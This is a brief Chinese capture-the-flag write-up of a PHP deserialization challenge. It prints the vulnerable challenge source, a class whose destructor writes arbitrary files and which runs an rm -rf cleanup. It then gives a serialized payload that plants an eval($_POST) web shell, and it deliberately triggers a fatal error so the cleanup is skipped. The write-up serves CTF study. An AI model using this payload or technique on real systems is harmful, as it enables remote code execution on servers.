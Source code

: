 ## 2021-8-16PHP反序列化
#php #反序列化 
题目[入口](http://ctf.igml.top:7002/)
初始页面回显
```php
<?php  
show_source(__FILE__);  
$dir = './sandbox/'.md5($_SERVER['REMOTE_ADDR']);  
echo $dir;  
echo "<br>";  
is_dir($dir) ?: mkdir($dir);  
$line = $_GET['a'];  
class B {  
    public $content;  
    public $filename;  
    function __destruct() {  
        if(strstr($this->filename,'..')){  
            die('No');  
        }else{ file_put_contents('./sandbox/'.md5($_SERVER['REMOTE_ADDR']).'/'.$this->filename, $this->content);  
        }  
          
    }  
}  
$a = @unserialize($line);  
system('rm -rf '.$dir);  
echo "unserialize yyds";  
./sandbox/701435ed682069e3a94bb1b674b7ff6c  
unserialize yyds
```
[[$_SERVER#^68a820|REMOTE_ADDR]]提取当前服务器的IP地址并进行MD5运算，执行`ping ctf.igml.top`得到IP地址为 202.112.51.236

解
```php
O:1:"B":3:{s:7:"content";s:31:"<?php echo 1;eval($_POST[a]);?>";s:8:"filename";s:5:"1.php";s:6:"decade";O:3:"pdo":0:{};}
```
fatal error，导致后面代码停止执行，但是反序列化的destruct方法还是会执行